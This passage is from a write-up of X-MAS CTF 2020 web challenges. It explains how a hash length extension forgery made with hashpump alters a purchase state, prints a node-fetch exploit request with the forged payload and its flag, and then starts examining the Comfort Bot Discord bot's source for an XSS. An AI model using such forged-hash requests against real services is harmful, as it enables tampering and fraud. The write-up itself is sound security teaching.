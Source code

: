 Therefore, when it becomes "`12 | 1 | Null Byte | 1000 |`", `1000` is used as the number of cats. If there is no logic to fetch only the last value of the array, it won't work.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-19%20오전%205.10.35.png?raw=true)
So, since I know the salt length, I made a payload using `hashpump`. (`URL encoding`)
```javascript
const fetch = require("node-fetch");
fetch('http://challs.xmas.htsp.ro:3003/api/buy.php', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'item_id=2&state=12%20%7C%201%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00H%02%00%00%00%00%00%00%20%7C%201000&hash=f48ccd5768b829f8856ae186eb4bf4a4'
}).then((x) => x.text()).then((x) => console.log(x));
```
As above, I wrote the exploit code using JavaScript.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-19%20오전%205.17.01.png?raw=true)
Finally, return the exploit code to see the successful purchase of the flag.

`FLAG : X-MAS{1_h4v3_s0_m4ny_c4t5_th4t_my_h0m3_c4n_b3_c0ns1d3r3d_4_c4t_sh3lt3r_aaf30fcb4319effa}`

---
### (Web) Comfort Bot
<strong>Challenge Author :</strong> Milkdrop<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 432<br>
<strong>Solves :</strong> 39<br>
<strong>TL;DR</strong> : Simple XSS<br>


![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-19%20오전%205.31.43.png?raw=true)
This time, we will solve one of the web problems from X-MAS CTF 2020 called Comfort Bot.<br><br>

The peculiarity of the Comfort Bot problem was that it did not have a web server and was solved using the X-MAS bot within Discord. And it provides the source code, so let's check the source code first.
```python
# bot.py

elif (message.content.startswith ("!")):
	spell = True
	response = await engine.getCleverResponse (authorID, message.content[1:])
```
The code above is the part that is executed when the value input from the X-MAS Discord Bot starts with an exclamation mark.
```python
# engine.py

async def getCleverResponse (authorID, message):
	if (authorID == 0):
		return random.choice(["Oh, I quite certainly agree.", "There, there, it's alright.", "Oh!", "Fascinating!", "Exquisite reply!", "Running program: COMFORT.", "Understandable.", "Hmm.", "I see.", "Well, if you really think that...", "What are you doing?", "What are you up to?", "What's that?", "[Nodding]", "[Nodding and stroking chin saying mhmm]"])
	else:
		return await parseUsers (cleverDriver.getCleverResponse (authorID, message))
```
The code above is the getCleverResponse function in engile.py. In the code, you can see that if authorID is `0`, a random string in the array is printed, and if authorID is `not 0`, cleverDriver.getCleverResponse function is executed.
```python
# driver.py

```